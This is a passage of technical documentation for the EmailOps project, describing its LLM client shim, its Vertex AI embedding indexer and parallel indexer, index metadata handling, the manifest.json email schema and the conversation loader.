### 3.2. `_runtime_exports() -> list[str]`

Fetches the runtime's declared public exports dynamically (no caching). This function:
- Retrieves `__all__` from `llm_runtime` if it exists
- Validates that entries are strings
- Handles various iterable types (list, tuple, or any Iterable)
- Returns an empty list if runtime doesn't declare a usable `__all__`

## 4. Provided Functions

The shim explicitly defines a few key functions for clarity and backward compatibility.

### 4.1. Main API

These are thin wrappers that pass all arguments directly to the runtime using `_rt_attr()` for resolution:

-   **`complete_text(...)`**: For text generation.
-   **`complete_json(...)`**: For generating structured JSON output.
-   **`embed_texts(...)`**: For creating vector embeddings from text.

### 4.2. Compatibility Aliases

To support older code, the following aliases are provided:

-   **`complete(...)`** -> `complete_text(...)`
-   **`json_complete(...)`** -> `complete_json(...)`
-   **`embed(...)`** -> `embed_texts(...)`

### 4.3. The `embed()` Safety Net

The `embed()` alias includes an important safety feature. It's a common mistake to pass a single string to an embedding function that expects a list of strings. This shim catches that error and provides a helpful message.

```mermaid
graph TD
    A[Call embed("a single string")] --> B{Is input a string, bytes, bytearray, or memoryview?};
    B -- Yes --> C[Raise TypeError with helpful message: "wrap in a list, e.g., embed([text])"];
    B -- No --> D[Convert to list if not already];
    D --> E{Are all elements strings?};
    E -- No --> F[Raise TypeError: "expects an iterable of str"];
    E -- Yes --> G[Proceed to call embed_texts(...)];
```

## 5. Dynamic Export Management

The module implements sophisticated export management to maintain a clean and consistent API surface.

### 5.1. Core Exports List

The `_CORE_EXPORTS` list defines the shim's guaranteed exports:
- Core functions: `complete_text`, `complete_json`, `embed_texts`
- Compatibility aliases: `complete`, `json_complete`, `embed`
- Error class: `LLMError` (conditionally included based on runtime availability)

### 5.2. Dynamic `__all__` Construction

The `__getattr__` function handles requests for `__all__` specially:
1. Builds core exports list, excluding `LLMError` if not present in runtime
2. Merges with runtime's declared exports from `_runtime_exports()`
3. Deduplicates while preserving order
4. Returns the merged list for clean `import *` behavior

### 5.3. `__dir__()` Implementation

Provides clean IDE/tooling completion by returning a sorted, deduplicated list of all available attributes. This ensures autocomplete and introspection tools work correctly.

## 6. Type Checking Support

The module includes a `TYPE_CHECKING` block that:
- Only executes during static type analysis (not at runtime)
- Imports type hints from `llm_runtime` for better IDE support
- Has no runtime cost but helps type checkers infer correct signatures

```python
if TYPE_CHECKING:
    # Import for type checkers only (no runtime cost)
    from .llm_runtime import (  # noqa: F401
        complete_text as _complete_text_t,
    )
```

## 7. Error Handling

The module provides clear error messages through:
- `_rt_attr()`: Consistent error messages for missing runtime attributes
- Custom `AttributeError` in `__getattr__`: Clear module-level attribute errors
- Type validation in `embed()`: Helpful messages for common usage mistakes

## 8. Developer Guidance

This file is designed for API compatibility, not for implementing logic.

**Important Notes:**
- All actual LLM logic is in `emailops/llm_runtime.py`
- This shim ensures backward compatibility while allowing runtime evolution
- The dynamic forwarding means new runtime features are immediately available
- Type checkers get proper hints despite the dynamic nature

**For implementation details, refer to `emailops/llm_runtime.py`.**

---

## Part 4: Indexing System

### email_indexer.md

# `email_indexer.py` — Vertex Vector Index Builder & Manager

> **Scope:** Vertex AI only. This document reflects the current codepath where the CLI constrains the provider to `vertex` and all embedding calls are routed through the Vertex runtime.  
> **Entrypoint:** `python -m emailops.email_indexer`

---

## 1) Overview

This module builds and maintains a semantic vector index over an EmailOps export. It produces the artifacts required for fast retrieval: `embeddings.npy`, `mapping.json`, and (optionally) a FAISS index. The indexer supports *full* and *incremental* builds and reuses previous embeddings when possible to minimize compute.

**Highlights**

- **Vertex‑only embeddings** with optional `--model` override; default model comes from `VERTEX_EMBED_MODEL` (`gemini-embedding-001`).
- **Three update modes:** full rebuild, timestamp‑based incremental, and precise incremental using `file_times.json`.
- **Stable IDs & safe upserts:** chunk IDs are deterministic; attachment IDs are based on a SHA‑1 of the absolute path.
- **Memory/IO guardrails:** atomic writes; batch embeddings (max 250); optional FAISS build; mmap and reuse of unchanged vectors.
- **Email‑aware text cleaning & chunking** tuned for noisy threads and attachments.

---

## 2) End‑to‑End Workflow

```mermaid
graph TD
    A[Start] --> B{--force-reindex?}
    B -->|Yes| C[Full corpus scan]
    B -->|No| D{file_times.json exists?}
    D -->|Yes| E[Precise incremental build]
    D -->|No| F{last_run.txt exists?}
    F -->|Yes| G[Timestamp-based incremental]
    F -->|No| C[Full corpus scan]
    C --> H[Generate Vertex embeddings]
    E --> H
    G --> H
    H --> I[Write embeddings.npy + mapping.json]
    I --> J[Build FAISS (optional)]
    J --> K[Write meta.json + file_times.json + last_run.txt]
```

**Artifacts**

```
_index/
├── embeddings.npy       # float32 [N, D]
├── mapping.json         # N documents with metadata/snippets
├── index.faiss          # optional IndexFlatIP(D) (cosine-ready: vectors are unit-normalized)
├── meta.json            # provider/model/dimensions/counts
├── file_times.json      # per-doc mtime used for precise incremental
└── last_run.txt         # ISO 8601 timestamp for timestamp-based incremental
```

---

## 3) Update Strategies

### 3.1 Full Reindex (`--force-reindex`)

* Rebuild the entire corpus from the export root.
* Discards prior vectors and mapping; emits fresh artifacts.

### 3.2 Timestamp‑Based Incremental

* Uses `last_run.txt` as the cut‑off.
* Reuses previous vectors for conversations/attachments whose `mtime` is older than `last_run` **and** are still present in the export.
* Suitable when `file_times.json` is not available (first runs or after migrations).

### 3.3 File‑Times Incremental (Precise)

* Uses `file_times.json` and `mapping.json` to detect **adds/edits/deletions** at the chunk prefix level.
* Rebuilds changed conversations/attachments and collects a set of deleted chunk IDs to drop from the final mapping.
* Safest and most efficient mode for steady‑state updates.

---

## 4) Credential & Config Initialization

All Vertex/GCP settings are centralized in `EmailOpsConfig`. On startup the indexer calls `EmailOpsConfig.load().update_environment()` which:

* Sets common knobs (`INDEX_DIRNAME`, `CHUNK_SIZE`, `CHUNK_OVERLAP`, `EMBED_BATCH`, `VERTEX_EMBED_MODEL`, etc.).
* Hydrates `GCP_PROJECT`/`GOOGLE_CLOUD_PROJECT`/`VERTEX_PROJECT` when available.
* Locates a service‑account JSON from a prioritized list under `secrets/` (if `GOOGLE_APPLICATION_CREDENTIALS` isn't set).

> See [`config.py`](../emailops/config.py) for details on environment propagation and credential discovery.

---

## 5) Corpus Construction

### 5.1 Conversation Discovery

* A *conversation directory* is any folder containing `Conversation.txt` (recursive scan).

### 5.2 Loading & Cleaning

* [`load_conversation()`](../emailops/utils.py:675) loads `Conversation.txt`, `manifest.json`, `summary.json`, and attachment candidates from the directory and `Attachments/` subtree.
* Attachment text is extracted with format‑aware handlers (`.pdf`, `.docx`, `.xlsx`, `.eml`, `.msg`, etc.) and normalized.
* [`clean_email_text()`](../emailops/utils.py:516) removes headers, signatures, forwarded separators, and collapses whitespace/newlines.

### 5.3 Chunking & IDs

* [`prepare_index_units()`](../emailops/text_chunker.py:205) slices text into overlap‑aware chunks and assigns IDs:

  * Conversation: `<conv_id>::conversation::chunk{N}`
  * Attachment: `<conv_id>::att:{SHA1}::chunk{N}`
* Per‑conversation `--limit` caps total chunks across the conversation + its attachments.

### 5.4 Oversize Guards

* Skip conversation/attachments larger than `MAX_INDEXABLE_FILE_MB` (MB).
* Truncate overlong text to `MAX_INDEXABLE_CHARS` (characters) before chunking.

---

## 6) Embedding Generation (Vertex‑only)

* Batch size defaults to `EMBED_BATCH` (clamped to **≤ 250**).
* Model selection: `--model` CLI flag or `VERTEX_EMBED_MODEL` env (`gemini-embedding-001` by default).
* [`embed_texts()`](../emailops/llm_client.py:54) returns **unit‑normalized** `float32` vectors. The index uses inner‑product (cosine‑ready).

**Reuse Path**

1. Load previous `embeddings.npy` (mmap) + `mapping.json`.
2. Map `doc_id → row` for unchanged docs to reuse their vectors.
3. Embed only new/changed docs.
4. Concatenate reused and new vectors in the original order expected by the final mapping.

**Validation**

* Batch output must be 2‑D with the exact number of rows.
* All values must be finite and reasonably normalized.

---

## 7) Persistence & Metadata

### 7.1 Save Sequence

1. `embeddings.npy` (atomic write via temp file).
2. `mapping.json` (atomic JSON write).
3. `index.faiss` (optional) using `IndexFlatIP(D)` and `index.add(embeddings)`.
4. `meta.json` derived from on‑disk artifacts (provider/model/dimensions/counts).
5. `file_times.json` + `last_run.txt` for future incremental runs.

### 7.2 Mapping Schema (per chunk)

```json
{
  "id": "CONV123::conversation::chunk0",
  "path": "/abs/path/to/Conversation.txt",
  "conv_id": "CONV123",
  "doc_type": "conversation|attachment",
  "subject": "Subject here",
  "date": "2021-05-14T10:00:00Z",
  "start_date": "2021-05-01T08:00:00Z",
  "end_date": "2021-05-14T10:00:00Z",
  "from_email": "",
  "from_name": "",
  "to_emails": [],
  "cc_emails": [],
  "participants": ["Alice", "Bob"],
  "attachment_name": "contract.pdf",
  "attachment_type": "pdf",
  "attachment_size": 123456,
  "snippet": "First 500 chars of the cleaned chunk …"
}
```

---

## 8) CLI

```bash
# Full index build
python -m emailops.email_indexer --root /path/to/export --provider vertex

# Incremental (timestamp-based)
python -m emailops.email_indexer --root /path/to/export

# Force complete rebuild
python -m emailops.email_indexer --root /path/to/export --force-reindex

# Advanced
python -m emailops.email_indexer --root /path/to/export \
  --index-root /path/to/output \
  --model projects/PROJ/locations/LOC/models/gemini-embedding-001 \
  --batch 128 \
  --limit 10
```

**Arguments**

| Flag              | Required |     Default | Notes                                       |
| ----------------- | -------: | ----------: | ------------------------------------------- |
| `--root`          |        ✅ |           — | Export root containing conversation folders |
| `--provider`      |          |    `vertex` | CLI constrained to `vertex`                 |
| `--model`         |          |         env | Overrides `VERTEX_EMBED_MODEL`              |
| `--batch`         |          | env or `64` | Clamped to ≤ 250                            |
| `--index-root`    |          |    `--root` | Write `_index/` here                        |
| `--force-reindex` |          |     `False` | Full rebuild                                |
| `--limit`         |          |           — | Cap chunks per conversation                 |

---

## 9) Configuration & Environment

* **Index placement:** `INDEX_DIRNAME=_index` (overridable).
* **Chunking:** `CHUNK_SIZE` / `CHUNK_OVERLAP` (via `EmailOpsConfig`).
* **Embedding:** `EMBED_BATCH`, `VERTEX_EMBED_MODEL`, `VERTEX_OUTPUT_DIM` (optional).
* **Size guards:** `MAX_INDEXABLE_FILE_MB`, `MAX_INDEXABLE_CHARS`.
* **GCP:** `GCP_PROJECT`, `GOOGLE_APPLICATION_CREDENTIALS`, `GCP_REGION`, `VERTEX_LOCATION`.

---

## 10) Consistency & Health

* Post‑save cross‑checks verify: `len(mapping.json)` == rows in `embeddings.npy` == FAISS `ntotal` (when FAISS is built).
* `meta.json` records both configured and detected dimensions to catch drift across runs.

---

## 11) Integration Points

* **[`index_metadata.py`](index_metadata.md)** — Paths, metadata creation, atomic JSON, consistency checks.
* **[`utils.py`](utils.md)** — Conversation discovery, extraction, cleaning.
* **[`text_chunker.py`](../emailops/text_chunker.py)** — Chunk generator (ID + text slices).
* **[`llm_client.py`](../emailops/llm_client.py)** — Embedding shim to Vertex.
* **[`config.py`](../emailops/config.py)** — Environment and credential wiring.

---

## 12) Operational Tips

1. Use `--force-reindex` for the very first build or after schema changes.
2. Prefer file‑times incremental for steady state (most accurate and efficient).
3. If you change the Vertex output dimensions, **force a rebuild** to avoid mismatches.
4. Keep `_index/` under source control ignore, but back it up before major migrations.

### parallel_indexer.py.md

# `parallel_indexer.py` - Parallel Indexing Engine

## 1. Overview

This module provides a parallelized implementation of the email indexing process. It is designed to significantly speed up the indexing of large volumes of conversations by distributing the workload across multiple CPU cores.

**Key Features:**
- **Parallel Processing**: Uses Python's `multiprocessing` library to run indexing tasks in parallel.
- **Workload Distribution**: Splits the list of conversations evenly among a pool of worker processes.
- **Isolated Workers**: Each worker process runs in its own environment, ensuring that credential and configuration settings do not interfere with one another.
- **Result Aggregation**: Merges the partial results from all workers into a final, unified index.
- **Error Handling**: Gracefully handles worker failures and provides a summary of the outcome.

---

## 2. Core Workflow: `parallel_index_conversations()`

This is the main public function of the module.

### 2.1. Function Signature

```python
def parallel_index_conversations(
    root: Path,
    index_dir: Path,
    num_workers: int,
    provider: str,
    chunk_size: int,
    chunk_overlap: int,
    limit: int | None = None,
) -> tuple[np.ndarray, list[dict[str, Any]]]:
```

### 2.2. Parameters

| Parameter | Type | Description |
|---|---|---|
| `root` | `Path` | The root directory containing the conversation exports. |
| `index_dir` | `Path` | The directory where the final index will be stored. |
| `num_workers` | `int` | The number of parallel worker processes to spawn. |
| `provider` | `str` | The embedding provider to use (e.g., 'vertex'). |
| `chunk_size` | `int` | The target size of each text chunk. |
| `chunk_overlap` | `int` | The character overlap between chunks. |
| `limit` | `int` | An optional limit on the number of chunks per conversation. |

### 2.3. Return Value

The function returns a tuple containing the merged embeddings and the merged mapping list: `(merged_embeddings, merged_mapping)`.

### 2.4. Workflow Diagram



---

## 3. Worker Process: `_index_worker()`

This function is the core of the parallel processing. Each worker process executes this function with its assigned batch of conversations.

### 3.1. WorkerBatch Dataclass

The configuration for each worker is passed via the `WorkerBatch` dataclass:

```python
@dataclass
class WorkerBatch:
    worker_id: int
    conversations: list[Path]
    account_index: int
    provider: str
    chunk_size: int
    chunk_overlap: int
    limit: int | None
```

### 3.2. Worker Workflow

1.  **Environment Setup**: Each worker sets its own environment variables for the GCP project and credentials, ensuring isolation.
2.  **Chunking**: The worker processes its assigned conversations, performing text chunking using `_build_doc_entries`.
3.  **Embedding**: It then generates embeddings for all its chunks in batches using `embed_texts`.
4.  **Save Partial Results**: The worker saves its generated embeddings and mapping to temporary files in a unique temporary directory.
5.  **Return Results**: The function returns a dictionary containing the paths to the temporary files and other metadata.

---

## 4. Result Merging and Cleanup

After all worker processes have completed, the main process performs the following steps:

1.  **Collect Results**: Gathers the result dictionaries from all workers.
2.  **Sort Results**: Sorts the results by `worker_id` to ensure a deterministic order for merging.
3.  **Merge Embeddings**: Loads the partial `embeddings.npy` files from each worker and stacks them into a single NumPy array using `np.vstack`.
4.  **Merge Mappings**: Loads the partial `mapping.json` files and concatenates them into a single list.
5.  **Verify Alignment**: Checks that the number of rows in the merged embeddings array matches the number of documents in the merged mapping list.
6.  **Cleanup**: Deletes all temporary files and directories created by the workers.

---

## 5. Dependencies

-   **`multiprocessing`**: For creating and managing the worker pool.
-   **`numpy`**: For merging the embedding arrays.
-   **`email_indexer`**: For `_build_doc_entries`, `_extract_manifest_metadata`, and `_materialize_text_for_docs`.
-   **`llm_client.embed_texts`**: For generating embeddings.
-   **`llm_runtime.load_validated_accounts`**: For managing GCP credentials.
-   **`utils.find_conversation_dirs`, `utils.load_conversation`**: For finding and loading conversation data.

### index_metadata.py.md

# `index_metadata.py` - Index Metadata Management System

## 1. Overview

This module provides centralized management of index metadata for EmailOps, focusing on Vertex AI/Gemini embedding support. It handles index configuration, validation, compatibility checks, and atomic file operations to ensure index integrity across operations.

**Key Features:**
- **Vertex-only optimization**: Built specifically for Google's Gemini embeddings
- **Robust dimension detection**: Multiple fallback strategies for dimension inference
- **Atomic JSON operations**: Safe concurrent writes with retry logic
- **Memory-mapped array cleanup**: Proper resource management on Windows/NFS
- **Consistency validation**: Cross-checks between FAISS, embeddings, and mapping
- **Provider normalization**: Handles various Vertex AI naming conventions

---

## 2. File Structure & Constants

### 2.1 Index File Layout

```
_index/
├── meta.json           # Index metadata
├── index.faiss        # FAISS vector index
├── mapping.json       # Document metadata
├── embeddings.npy     # Raw embedding vectors
├── last_run.txt       # Last indexing timestamp
└── file_times.json    # Per-document timestamps
```

### 2.2 File Constants

```python
META_FILENAME = "meta.json"
FAISS_INDEX_FILENAME = "index.faiss"
MAPPING_FILENAME = "mapping.json"
EMBEDDINGS_FILENAME = "embeddings.npy"
TIMESTAMP_FILENAME = "last_run.txt"
FILE_TIMES_FILENAME = "file_times.json"
INDEX_DIRNAME_DEFAULT = "_index"  # Overridable via INDEX_DIRNAME env
```

---

## 3. Core Data Structures

### 3.1 IndexPaths Dataclass

```python
@dataclass(frozen=True)
class IndexPaths:
    base: Path          # Index directory
    meta: Path          # meta.json
    mapping: Path       # mapping.json
    embeddings: Path    # embeddings.npy
    faiss: Path        # index.faiss
    timestamp: Path    # last_run.txt
    file_times: Path   # file_times.json
```

**Usage:**
```python
paths = index_paths("/path/to/_index")
# Access: paths.meta, paths.faiss, etc.
```

### 3.2 Metadata Schema

```python
{
    "version": "1.0",
    "created_at": "2024-01-15T10:30:00+00:00",  # ISO 8601
    "provider": "vertex",
    "model": "gemini-embedding-001",
    "dimensions": 3072,           # Configured dimensions
    "actual_dimensions": 3072,    # Detected from files
    "num_documents": 5000,
    "num_folders": 250,
    "index_type": "faiss",        # or "numpy", "none"
    "half_life_days": 30,
    "python_version": "3.10.12",
    # Custom fields allowed...
}
```

---

## 4. Provider & Model Management

### 4.1 Provider Normalization

```python
def _normalize_provider(provider: str) -> str
```

**Accepted Aliases → "vertex":**
- `vertex`
- `vertexai`
- `google-vertex`
- `googlevertexai`

### 4.2 Model Name Handling

```python
def _norm_vertex_model_name(raw: Optional[str]) -> str
```

**Normalizations:**
- `gemini-embedding-001` → `gemini-embedding-001`
- Preserves fully-qualified resource names
- Handles path-based model names

### 4.3 Dimension Detection

```python
def _vertex_dimensions_for_model(model: str) -> Optional[int]
```

**Model → Dimensions Mapping:**
| Model Pattern | Dimensions |
|--------------|------------|
| `gemini-embedding-*` | 3072 |
| `text-embedding-004/005` | 768 |
| `textembedding-gecko*` | 768 |
| `text-multilingual-embedding-*` | 768 |

**Dimension Resolution Priority:**
1. `VERTEX_OUTPUT_DIM` environment variable
2. `VERTEX_EMBED_DIM` environment variable  
3. Model-based inference
4. On-disk detection from embeddings.npy
5. FAISS index dimension

---

## 5. Metadata Operations

### 5.1 Creating Metadata

```python
def create_index_metadata(
    provider: str,
    num_documents: int,
    num_folders: int,
    index_dir: Union[str, Path],
    custom_metadata: Optional[Dict[str, Any]] = None
) -> Dict[str, Any]
```

**Process:**


**Example:**
```python
metadata = create_index_metadata(
    provider="vertex",
    num_documents=1000,
    num_folders=50,
    index_dir="/path/to/_index",
    custom_metadata={"project": "emailops"}
)
```

### 5.2 Saving Metadata

```python
def save_index_metadata(
    metadata: Dict[str, Any], 
    index_dir: Union[str, Path]
) -> None
```

**Features:**
- Atomic write with temp file
- fsync for durability
- Retry logic for Windows locks
- JSON pretty-printing with sorting

### 5.3 Loading Metadata

```python
def load_index_metadata(
    index_dir: Union[str, Path]
) -> Optional[Dict[str, Any]]
```

**Error Handling:**
- Returns None if file missing
- UTF-8 BOM tolerance
- Type validation (must be dict)
- Logs errors without raising

---

## 6. Validation & Consistency

### 6.1 Index Compatibility Check

```python
def validate_index_compatibility(
    index_dir: Union[str, Path],
    provider: str,
    raise_on_mismatch: bool = True,
    check_counts: bool = True
) -> bool
```

**Validation Steps:**
1. **Provider Match**: Index provider must match requested
2. **Metadata Exists**: meta.json must be present
3. **Artifacts Exist**: At least one of faiss/embeddings.npy
4. **Dimension Match**: Actual vs configured dimensions
5. **Count Consistency**: Optional document count validation

**Example:**
```python
# Strict validation (raises on error)
validate_index_compatibility(
    "/path/to/_index",
    "vertex",
    raise_on_mismatch=True
)

# Lenient validation (returns bool)
is_valid = validate_index_compatibility(
    "/path/to/_index", 
    "vertex",
    raise_on_mismatch=False
)
```

### 6.2 Consistency Check

```python
def check_index_consistency(
    index_dir: Union[str, Path],
    raise_on_mismatch: bool = True
) -> bool
```

**Cross-Validation Matrix:**
| Component | Check Against | Validation |
|-----------|---------------|------------|
| mapping.json entries | embeddings.npy rows | Must be equal |
| mapping.json entries | FAISS ntotal | Must be equal |
| embeddings.npy rows | FAISS ntotal | Must be equal |

---

## 7. Dimension Detection

### 7.1 Detection Methods

#### From Embeddings File
```python
def _detect_actual_dimensions(index_dir: Union[str, Path]) -> Optional[int]
```

**Process:**
1. Load embeddings.npy with mmap
2. Check for 2D array
3. Extract shape[1] as width
4. Close mmap properly
5. Force garbage collection

#### From FAISS Index
```python
def _detect_faiss_dimensions(index_dir: Union[str, Path]) -> Optional[int]
```

**Process:**
1. Load FAISS index
2. Read `d` attribute
3. Clean up index object
4. Return dimension

### 7.2 Memory Management

```python
def _close_memmap(arr: Any) -> None
```

**Cleanup Steps:**
1. Unwrap view layers to base
2. Close base if has `.close()`
3. Close `._mmap` if present
4. Handles Windows/NFS file locks

---

## 8. File I/O Operations

### 8.1 Atomic JSON Writing

```python
def _atomic_write_json(
    path: Path, 
    data: Dict[str, Any] | List[Any]
) -> None
```

**Implementation:**
```python
# Atomic write process
1. Create unique temp file in same directory
2. Write JSON with UTF-8 encoding
3. Flush and fsync to disk
4. Atomic rename with retries
5. Clean up temp file on failure
```

**Retry Logic:**
- 6 attempts maximum
- Exponential backoff (0.05 * 2^attempt)
- Handles Windows PermissionError

### 8.2 Mapping File Operations

#### Reading Mapping
```python
def read_mapping(
    index_dir: Union[str, Path],
    strict: bool = True
) -> List[Dict[str, Any]]
```

**Features:**
- UTF-8 BOM handling
- Schema validation
- Strict/lenient modes
- Empty list on error (lenient)

#### Writing Mapping
```python
def write_mapping(
    index_dir: Union[str, Path],
    mapping: List[Dict[str, Any]]
) -> Path
```

**Process:**
- Uses atomic write
- Pretty-printed JSON
- Returns file path

---

## 9. Information Display

### 9.1 Index Information

```python
def get_index_info(index_dir: Union[str, Path]) -> str
```

**Output Example:**
```
Index Information:
  Provider: vertex
  Model: gemini-embedding-001
  Configured Dimensions: 3072
  Actual Dimensions: 3072
  Documents (mapping.json): 5000
  Embeddings (rows in embeddings.npy): 5000
  FAISS vectors (ntotal): 5000
  Folders: 250
  Created: 2024-01-15T10:30:00+00:00
  Index Type: faiss
  Half-life (days): 30
```

**Data Sources:**
1. Metadata from meta.json
2. Document count from mapping.json
3. Row count from embeddings.npy
4. Vector count from FAISS index
5. Dimension inference from files

---

## 10. Configuration

### 10.1 Environment Variables

| Variable | Default | Description |
|----------|---------|-------------|
| `INDEX_DIRNAME` | `_index` | Index directory name |
| `VERTEX_EMBED_MODEL` | `gemini-embedding-001` | Default embedding model |
| `VERTEX_OUTPUT_DIM` | None | Override output dimensions |
| `VERTEX_EMBED_DIM` | None | Alternative dim override |
| `HALF_LIFE_DAYS` | 30 | Recency boost half-life |

### 10.2 Reserved Metadata Fields

Fields that cannot be overridden via custom_metadata:
- `version`
- `created_at`
- `provider`
- `model`
- `dimensions`
- `num_documents`
- `num_folders`
- `index_type`
- `half_life_days`
- `python_version`

Exception: `actual_dimensions` can be explicitly set

---

## 11. Error Handling

### 11.1 Error Strategies

**Validation Errors:**
```python
# Strict mode (default)
validate_index_compatibility(..., raise_on_mismatch=True)
# Raises: ValueError, FileNotFoundError

# Lenient mode
valid = validate_index_compatibility(..., raise_on_mismatch=False)
# Returns: False with logged error
```

**I/O Errors:**
- Atomic writes with rollback
- Temp file cleanup on failure
- Retry logic for locks

**Memory Errors:**
- Proper mmap cleanup
- Garbage collection hints
- Resource deallocation

### 11.2 Common Issues

| Error | Cause | Solution |
|-------|-------|----------|
| "Only 'vertex' provider is supported" | Wrong provider | Use vertex or rebuild |
| "No index metadata found" | Missing meta.json | Run indexer first |
| "Dimension mismatch" | Config vs actual | Check env vars |
| "Failed to read embeddings" | Corrupted file | Rebuild index |
| "FAISS vectors != mapping entries" | Inconsistent state | Force reindex |

---

## 12. Integration Points

### 12.1 Used By

- [`email_indexer.py`](email_indexer.py): All metadata operations
- [`search_and_draft.py`](search_and_draft.py): Compatibility checks
- [`doctor.py`](doctor.py): Health checks

### 12.2 Dependencies

**Required:**
- Python 3.8+
- `pathlib`
- `json`
- `dataclasses`

**Optional:**
- `numpy`: Dimension detection
- `faiss`: FAISS dimension/count detection

---

## 13. Best Practices

### 13.1 Index Management

1. **Always validate before use:**
   ```python
   if not validate_index_compatibility(index_dir, "vertex"):
       raise RuntimeError("Index incompatible")
   ```

2. **Check consistency periodically:**
   ```python
   if not check_index_consistency(index_dir):
       logger.warning("Index inconsistent, consider rebuilding")
   ```

3. **Handle dimension changes:**
   ```python
   # If dimensions change, force reindex
   metadata = load_index_metadata(index_dir)
   if metadata["dimensions"] != expected_dims:
       rebuild_index()
   ```

### 13.2 Performance Tips

1. **Use index_paths() for path management:**
   ```python
   paths = index_paths(index_dir)
   # Reuse paths object for multiple operations
   ```

2. **Cache metadata when possible:**
   ```python
   # Load once, use multiple times
   metadata = load_index_metadata(index_dir)
   ```

3. **Batch validation checks:**
   ```python
   # Single call validates everything
   validate_index_compatibility(..., check_counts=True)
   ```

---

## 14. Testing Considerations

### 14.1 Test Scenarios

1. **Metadata Creation:**
   - Valid provider (vertex)
   - Invalid provider
   - Custom metadata merging
   - Dimension detection

2. **File Operations:**
   - Atomic writes under concurrency
   - Windows file locks
   - BOM handling
   - Corrupted JSON

3. **Validation:**
   - Dimension mismatches
   - Count inconsistencies
   - Missing files
   - Provider changes

### 14.2 Mock Testing

```python
# Mock dimension detection
with patch('_detect_actual_dimensions', return_value=3072):
    metadata = create_index_metadata(...)

# Mock FAISS operations
with patch('faiss.read_index'):
    dims = _detect_faiss_dimensions(...)
```

---

## Part 5: Data Ingestion & Processing

### MANIFEST_SCHEMA.md

# EmailOps manifest.json Schema Documentation

This is the **single source of truth** for the manifest.json schema used by EmailOps.

## Complete Schema

```json
{
  "subject": "RE: Insurance - details of all furniture transfer",
  
  "messages": [
    {
      "from": {
        "name": "Patrick Chalhoub",
        "smtp": "patrick@company.com"
      },
      "to": [
        {"name": "Insurance Dept", "smtp": "insurance@company.com"},
        {"name": "Admin Team", "smtp": "admin@company.com"}
      ],
      "cc": [
        {"name": "Manager", "smtp": "manager@company.com"}
      ],
      "date": "2025-05-08T15:02:24Z",
      "subject": "RE: Insurance - details...",
      "text": "Full email body content here..."
    }
  ]
}
```

**Note:** `time_span` object removed - dates come from `messages[].date` field.

## Required Fields

| Field | Type | Required | Description |
|-------|------|----------|-------------|
| `subject` | string | YES | Email subject line |
| `messages` | array | YES | Array of message objects (at least 1) |
| `messages[].from` | object | YES | Sender info |
| `messages[].from.name` | string | YES | Sender display name |
| `messages[].from.smtp` | string | YES | Sender email address |
| `messages[].to` | array | YES | Recipients (can be empty) |
| `messages[].cc` | array | NO | CC recipients (can be empty) |
| `messages[].date` | string | YES | ISO 8601 with T separator |
| `messages[].text` | string | NO | Email body (full text recommended) |

**Dates:** Extracted from `messages[]` array:
- First message date = conversation start
- Last message date = conversation end

## Date Format

**Required format:** ISO 8601 with `T` separator

```
✅ CORRECT: "2025-05-08T15:02:24"
❌ WRONG:   "2025-05-08 15:02:24"  (space separator not supported)
```

## Filter Support

### `from:` Filter (OR Logic)
Matches if sender email is in the from list.
```
from:john@company.com               // Match John as sender
from:john@company.com,jane@company.com  // Match John OR Jane
```

### `to:` Filter (OR Logic)
Matches if ANY recipient email matches.
```
to:jane@company.com                 // Match if Jane in To
to:jane@company.com,bob@company.com     // Match Jane OR Bob
```

### `has:attachment` Filter
Checks if chunk has attachment metadata.
```
has:attachment      // Only chunks from attachments
has:noattachment    // Only conversation text chunks
```

Detected by presence of `attachment_name` field in chunk.

## Outlook Export Requirements

1. **Create `Conversation.txt`** (can be empty) - required for discovery
2. **Create `manifest.json`** with schema above
3. **Dates in messages must use T separator** - `"2025-05-08T15:02:24Z"`
4. **Include full email body** in `messages[].text` - no truncation needed

## Processing Flow

```
manifest.json
  ↓
Load body from messages[].text or Conversation.txt
  ↓
Clean text
  ↓
Chunk text
  ↓
Extract metadata (from/to emails, dates from messages[])
  ↓
Add metadata to EACH chunk
  ↓
Save to _chunks/{conv_id}.json (metadata complete)
  ↓
Indexing loads chunks (no manifest parsing needed)
```

Metadata extracted AFTER successful chunking for efficiency.

## Implementation

All schema parsing handled by [`core_manifest.py`](emailops/core_manifest.py) - no other module should duplicate this logic.

### conversation_loader.py.md

# `conversation_loader.py` - Conversation Loading Utilities

## 1. Overview

This module is responsible for loading all data related to a single email conversation from the filesystem. It handles reading the main conversation text, parsing associated JSON metadata files (`manifest.json`, `summary.json`), and extracting text from any attachments.

**Key Features:**
- **Robust File Loading**: Handles missing files and read errors gracefully.
- **Attachment Processing**: Extracts text from attachments and can optionally include it in the main conversation body.
- **Resilient JSON Parsing**: Implements a multi-stage fallback strategy for parsing potentially malformed `manifest.json` files.
- **Configuration Driven**: Uses settings from `processing_utils.get_processing_config()` for attachment handling.
- **Race Condition Mitigation**: Designed to be resilient against filesystem race conditions (TOCTOU).

---

## 2. Core Workflow: `load_conversation()`

This is the main public function of the module.

### 2.1. Function Signature

```python
def load_conversation(
    convo_dir: Path,
    include_attachment_text: bool = False,
    max_total_attachment_text: int | None = None,
    *,
    max_attachment_text_chars: int | None = None,
    skip_if_attachment_over_mb: float | None = None,
) -> dict[str, Any]:
```

### 2.2. Parameters

| Parameter | Type | Default | Description |
|---|---|---|---|
| `convo_dir` | `Path` | Required | The directory containing the conversation files. |
| `include_attachment_text` | `bool` | `False` | If `True`, appends attachment text to `conversation_txt`. |
| `max_total_attachment_text` | `int` | `None` | The maximum number of characters from all attachments to append. |
| `max_attachment_text_chars` | `int` | `None` | The maximum characters to extract from a single attachment. |
| `skip_if_attachment_over_mb`| `float`| `None` | Skips attachments larger than this size in megabytes. |

### 2.3. Return Structure

The function returns a dictionary with the following structure:

```python
{
    "path": str,              # Path to the conversation directory
    "conversation_txt": str,  # Content of Conversation.txt
    "attachments": [          # List of attachments
        {
            "path": str,      # Path to the attachment file
            "text": str       # Extracted text from the attachment
        }
    ],
    "summary": dict,          # Parsed content of summary.json
    "manifest": dict          # Parsed content of manifest.json
}
```

### 2.4. Workflow Diagram



---

## 3. Internal Helper Functions

### 3.1. `_load_manifest_json()`

This function implements a robust, multi-stage strategy to parse `manifest.json`, which can sometimes be malformed.

**Parsing Strategy:**
1.  **Read Bytes**: Reads the file as raw bytes to handle any encoding.
2.  **Decode**: Attempts to decode as `utf-8-sig` (to handle BOM), falling back to `latin-1`.
3.  **Sanitize**: Removes a wide range of control characters.
4.  **Strict JSON Parse**: Attempts a standard `json.loads()` on the sanitized text.
